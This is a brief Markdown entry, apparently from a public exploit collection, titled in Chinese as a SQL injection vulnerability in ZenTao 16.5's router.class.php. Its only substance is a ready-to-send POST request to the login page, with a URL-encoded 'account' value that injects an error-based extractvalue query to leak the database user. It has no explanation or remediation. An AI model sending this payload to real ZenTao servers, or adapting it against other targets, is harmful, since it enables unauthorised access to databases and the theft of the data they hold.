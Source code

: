 ## 禅道 16.5 router.class.php SQL注入漏洞
```
POST /user-login.html 
account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```
